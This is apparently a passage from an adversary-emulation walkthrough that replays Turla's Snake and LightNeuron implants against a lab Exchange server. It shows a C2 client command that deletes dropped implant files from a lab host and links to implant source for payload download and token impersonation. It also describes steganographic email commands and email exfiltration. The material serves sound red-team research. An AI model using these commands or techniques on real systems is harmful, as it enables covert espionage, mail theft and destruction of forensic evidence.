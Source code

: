 > WARNING: Please exit Windows PowerShell to complete the installation.
> WARNING: The following service restart is required for the change(s) to take effect : MSExchangeTransport
> WARNING: The following service restart is required for the change(s) to take effect : MSExchangeTransport
> WARNING: Waiting for service 'Microsoft Exchange Transport (MSExchangeTransport)' to stop...
> WARNING: Waiting for service 'Microsoft Exchange Transport (MSExchangeTransport)' to start...
> ```

:heavy_exclamation_mark: If the output contains any errors, notify your lead.

* Wait 1 minute and then task Snake to remove artifacts from `uosis (10.100.40.102)`:

```bash
./evalsC2client.py --set-task 475e465e424557475b42 '{"type": 1, "command": "del /Q C:\\Windows\\System32\\msiex.ps1 C:\\Windows\\System32\\wdr.rules.xml C:\\Windows\\System32\\mtxconf.dll C:\\Windows\\System32\\mtxcli.dll C:\\Windows\\System32\\perfe009.dat"}'
```

### :moyai: Source Code
* [Installation Script](msiex.ps1)
* [LightNeuron](LightNeuron.)
  * [Masquerading legitimate file name](winmail.dat)
* [Snake Usermodule DLL](UserModule_README.md)
  * [Task download](comms_http.cpp#L237)
  * [Task execution for generic process with optional token impersonation](execute.cpp#L406)
  * [Task execution via cmd with optional token impersonation](execute.cpp#L337)
  * [Payload download](comms_http.cpp#L604)
  * [Token duplication](execute_token.cpp#L284)

### :microscope: Cited Intelligence

* TBD

## Step 19 - Discovery and Email Collection

:microphone: `Voice Track:`

Step 19 emulates Turla sending several discovery commands to the LightNeuron
implant and collecting and exfiltrating email traffic. 

Emails with JPG attachments containing AES encrypted commands embedded using
stegonagraphy are sent from the C2 server to the domain. LightNeuron's
transport agent processes all emails via LightNeuron's companion DLL, which
executes the embedded command and blocks delivery of the email from the C2
server.

LightNeuron automatically collects all emails with recipients matching `nk.local`
in a log file (`C:\Windows\ServiceProfiles\NetworkService\AppData\Local\Temp\msmdat.xml`).

Eventually, LightNeuron is tasked to exfiltrate the email log, which is
exfiltrated over the existing C2 channel.

---

